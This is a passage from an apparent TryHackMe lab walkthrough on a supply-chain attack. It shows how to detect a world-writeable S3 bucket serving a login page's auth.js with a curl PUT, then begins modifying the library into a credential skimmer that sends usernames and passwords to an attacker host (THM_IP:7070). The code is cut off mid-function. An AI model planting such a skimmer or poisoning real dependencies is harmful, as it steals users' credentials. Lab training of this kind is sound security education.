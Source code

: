 Before we can continue, we need to embed a hostname entry to simulate the internet-facing S3 bucket. Perform the following command on your attack machine to inject the hostname into your /etc/hosts file:

`sudo bash -c "echo 'MACHINE_IP cdn.tryhackme.loc' >> /etc/hosts"`  

Once injected, you can refresh the web page and should see the dependency loading. If you inspect the code of the application (Right click->View Source), you will see that it pulls a dependency from cdn.tryhackme.loc. Let's inspect this dependency a little bit more. Open a link to that dependency, and it should allow you to download a JavaScript library called auth.js:

```javascript
//This is our shared authentication library. It includes a really cool function that will autosubmit the form when a user presses enter in the password textbox!

var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {    
	if (event.key == "Enter") {
		event.preventDefault();
        	document.getElementById("loginSubmit").click();
	}
});
```

  

Taking a closer look at the code in this library, it seems to add a JS event that will monitor the password textbox for keystrokes and automatically submit the login form if a user presses enter. With no real vulnerability in the code, let's take a look at where the dependency is being hosted.  

If we go back one step in the request to [http://cdn.tryhackme.loc:9444/libraries,](http://cdn.tryhackme.loc:9444/libraries) we can see that this seems to be an S3 bucket hosting the dependency:

`<?xml version="1.0" encoding="UTF-8"?><ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">`  

A quick way to see if the team perhaps misconfigured the S3 bucket to grant world-writeable permissions would be to try a simple PUT request:

`curl -X PUT http://cdn.tryhackme.loc:9444/libraries/test.js -d "Testing world-writeable permissions"`  

Running this request, it seems that we get an HTTP 200 OK. We can also see that we have the ability to download this new file using [http://cdn.tryhackme.loc:9444/libraries/test.js](http://cdn.tryhackme.loc:9444/libraries/test.js). This is looking positive for a supply chain attack! At this point, there are several different ways we could go about exploiting this world-writeable S3 bucket to cause a supply chain attack, but we will keep it simple by embedding a credential skimmer that will send us the user's credentials when they click submit.

Download the auth.js dependency and modify the code to look something like this:

```javascript
//This is our shared authentication library. It includes a really cool function that will autosubmit the form when a user presses enter in the password textbox!

var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {    
	if (event.key == "Enter") {
		event.preventDefault();
        try {
            const oReq = new XMLHttpRequest();
            var user = document.getElementById('txtUsername').value;
            var pass = document.getElementById('txtPassword').value;
            oReq.open("GET", "http://THM_IP:7070/item?user=" + user + "&pass=" + pass);
            oReq.send();
        }
        catch(err) {
            console.log(err);
        }
		function sleep (time) {
```